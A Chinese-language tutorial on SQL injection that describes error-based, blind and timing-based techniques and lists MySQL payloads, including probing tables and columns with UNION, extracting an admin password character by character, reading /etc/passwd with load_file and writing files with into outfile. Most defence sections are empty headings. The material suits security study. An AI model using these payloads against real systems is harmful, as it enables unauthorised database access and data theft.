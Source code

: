# SQL Injection

## 简介

SQL Injection，即SQL注入，是指攻击者利用服务端对用户输入处理的漏洞，输入一些SQL代码，通过闭合引号等手段使服务器将其作为SQL语句而执行，从而造成攻击者对目标数据库的非授权访问，可能产生数据泄露、损毁、篡改等。

## 姿势

### 错误回显注入

如果Web服务器开启了错误回显，通过对输入内容的报错回显可以推理SQL逻辑从而很容易构造Payload。

### 盲注

多数时候Web服务器并不会提供错误的回显，这时候我们需要借用盲注的技巧。

在盲注的情况下，攻击者需要一种手段来确认输入的Payload所产生的影响，而观察页面的变化是最常用的参照，比如以下Payload：

```js
业务URL：http://example.com/news.php?id=10
SQL逻辑：SELECT title, description, body FROM news WHERE id = 10

攻击Payload: ?id=10 and 1=2，造成查询为空，页面可能为空
```

当然以上Payload显示的页面异常也有可能是服务端检测到了非法Payload而做了处理的结果，所以确认注入点还需要后面的步骤。

```js
?id = 10 and 1=1返回页面正常说明确实有问题。
```

### Timing Attack

通过注入一些执行起来花费时间的SQL语句，观察Web请求的响应时间变化也可以判断是否存在SQL注入漏洞。

常用的函数：

MySQL：

```
benchmark(times,function)，benchmark某个函数function times次数
如benchmark(1000000, encode('hello','goodbye'))
sleep(seconds)，休眠seconds秒。
```

举例一个Payload：

```
10 union select if(substring(current,1,1)=char(119),benchmark(5000000,md5(1)) from (select database() as current) as tbl;
```

## 数据库攻击技巧

### 便利函数

database\(\) - 返回当前数据库名。

system\_user\(\) - 返回数据库的系统用户。

current\_user\(\) - 返回当前用户身份。

version\(\) - 数据库版本号。

### 常见技巧

猜解数据库版本：?id = 5 and substring\(@@version,1,1\)=4

判断表是否存在：?id = 5 union all select 1,2,3 from 表名

判断表中某列是否存在：?id = 5 union all select 1,2,列名 from 某表

具体猜解列中数据：?id = 5 and ascii\(substring\(\(select passwd from admin limit 0,1\),1,1\)&gt;64\) **二分法**

读取文件：?id = 5 union select 1,2,load\_file\('/etc/passwd'\) **需要读权限**

写文件：?id = 5 union select ... into outfile '/file' 或者 into dumpfile 'file'，dumpfile相比outfile更适合二进制文件。

### 攻击存储过程

### 编码利用

### 流程

### 防御

#### 使用预编译语句

#### 使用存储过程

#### 检查数据类型

#### 使用安全的函数

各种Web语言都会实现一些编码函数，帮助对抗有可能出现的攻击，比如`addslashes()`，`mysql_real_escape_string()`以及`mysql_escape_string()`等等。中间函数考虑到数据库连接的编码，因此相比其他两种比较不可能出现款字节注入漏洞。

